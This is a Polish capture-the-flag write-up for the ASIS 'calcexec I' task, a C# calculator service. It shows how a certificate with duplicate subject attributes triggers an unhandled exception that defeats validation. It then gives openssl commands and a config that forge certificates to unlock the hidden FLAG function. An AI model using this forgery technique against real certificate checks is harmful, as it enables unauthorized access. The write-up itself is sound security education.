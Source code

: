 ﻿## calcexec I (pwn, 200p, 7 solves)

> 2+2 == [5](Calc.exe)?  
> nc 185.82.202.146 1337

### PL
[ENG](#eng-version)

Zadanie to usługa ewaluatora wyrażeń matematycznych napisana w C#. Widzimy, że jedną z funkcji ewalutora jest wypisanie nam flagi.

```csharp
calcEngine.RegisterFunction("FLAG", 0, (p => File.ReadAllText("flag1")));
```

Niestety, konstruktor ewalutora przyjmuje listę dozwolonych funkcji i domyślnie jest ona pusta. Możemy natomiast je podać w certyfikacie x509 w jego dodatkowym rozszerzeniu.

```csharp
X509Extension x509Extension = cert.Extensions["1.1.1337.7331"];
if (x509Extension != null)
	calcEngine = Program.InitCalcEngine(Enumerable.ToArray(
		Enumerable.Select(Encoding.Default.GetString(
			x509Extension.RawData).Split(','), (x => x.Trim()))));
```

Niestety nie możemy wysłać jednak dowolnego certyfikatu. Są one w kilku krokach weryfikowane.

Nie możemy podać certyfikatu o subjekcie już wczytanego:

```csharp
string key = new X509Name(x509Certificate2.Subject).ToString();
if (this.Items.ContainsKey(key))
	throw new Exception("Certificate is already loaded!");
```

Subject certyfikatu musi zawierać podany identifier:
```csharp
return Enumerable.SingleOrDefault(Enumerable.OfType<string>(
	new X509Name(cert.Subject).GetValues(
		new DerObjectIdentifier("2.5.4.1337")))) == "calc.exe";
```

Issuer certyfikatu nie może być nim sam:
```csharp
string name1 = new X509Name(certificateName).ToString();
X509Certificate2 certificateByName = this.Store.FindCertificateByName(name1);
string name2 = new X509Name(certificateByName.Issuer).ToString();
if (name2 == name1)
	return false;
```

Oraz ostatecznie jest sprawdzana jego sygnatura kluczem publicznym wczytanego wcześniej issuera.
```csharp
Asn1Sequence asn1Sequence = new Asn1InputStream(this.Store.FindCertificateByName(name2)
	.GetPublicKey()).ReadObject();
DotNetUtilities.FromX509Certificate(certificateByName).Verify(
	new RsaKeyParameters(false, ((DerInteger) asn1Sequence[0]).Value,
		((DerInteger) asn1Sequence[1]).Value));
```

Jeżeli któryś z checków nie powiedzie się, wczytany certyfikat jest usuwany ze store'a.

Żeby móc wczytać własny certyfikat musimy znaleźć lukę w którymś z powyższych kodów. Dwa ostatnie zamknięte były w bloku try-catch, ale jeżeli udałoby się wywołać wyjątek w jednym z pozostałych to certyfikat nie zostałby usunięty.

Okazuje się, że certyfikaty x509 mogą posiadać wiele identyfikatorów z tą samą nazwą. Jeżeli więc spreparujemy certyfikat z więcej niż jednym identyfikatorem "2.5.4.1337" spowoduje to wyjątek przy wywołaniu `SingleOrDefault()`, które oczekuje co najwyżej jednego elementu.

Gdyby w ten sposób udało się wczytać certyfikat to będziemy mogli stworzyć certyfikat, który przejdzie wszystkie te checki.

```
openssl req -new -nodes -keyout CA.key -subj "/CN=MyCalc/O=MyCalc/OU=MyCalc/calc=MyCalc/calc=MyCalc" > CA.csr
openssl x509 -sha1 -req -signkey CA.key < CA.csr > CA.crt
openssl req -new -nodes -keyout client.key -config config -extensions cert_extensions > client.csr
openssl x509 -extfile config -extensions cert_extensions -sha1 -req -CAkey CA.key -CA CA.crt < client.csr > client.crt 
```

Oraz plik konfiguracyjny dla openssl:

```
oid_section	= new_oids 
[ new_oids ] 
fooname = 2.5.4.1337

[ req ] 
default_bits       = 2048 
distinguished_name = req_distinguished_name 
attributes         = req_attributes 
prompt             = no 
x509_extensions    = cert_extensions

[ req_distinguished_name ] 
fooname = calc.exe
CN = calc.exe
O = calc.exe
emailAddress = calc@asis-ctf.ir
L = Iran
C = IR

[ req_attributes ] 

[ cert_extensions ] 
1.1.1337.7331 = ASN1:UTF8:ABS,ACOS,ASIN,ATAN,ATAN2,CEILING,COS,COSH,EXP,FLOOR,INT,LN,LOG,LOG10,PI,POWER,RAND,RANDBETWEEN,SIGN,SIN,SINH,SQRT,SUM,SUMIF,TAN,TANH,TRUNC,AVERAGE,AVERAGEA,COUNT,COUNTA,COUNTBLANK,COUNTIF,MAX,MAXA,MIN,MINA,STDEV,STDEVA,STDEVP,STDEVPA,VAR,VARA,VARP,VARPA,CHAR,CODE,CONCATENATE,FIND,LEFT,LEN,LOWER,MID,PROPER,READ,REPLACE,REPT,RIGHT,SEARCH,SUBSTITUTE,T,TEXT,TRIM,UPPER,VALUE,WRITE,FLAG
```

W ten sposób przygotowane certyfikaty udaje się wczytać do programu oraz wywołać funkcję FLAG.

`ASIS{e5cb5e25f77c1da6626fb78a48a678f3}`
